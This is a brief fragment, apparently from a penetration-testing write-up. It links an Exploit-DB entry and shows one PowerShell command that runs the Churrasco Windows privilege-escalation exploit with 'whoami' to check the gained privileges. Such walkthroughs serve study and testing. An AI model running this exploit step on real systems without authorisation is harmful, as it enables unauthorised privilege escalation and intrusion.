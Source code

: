 https://www.exploit-db.com/exploits/6705?source=post_page-----885acd2a51ce--------------------------------

```powershell
.\churrasco.exe "whoami"
```
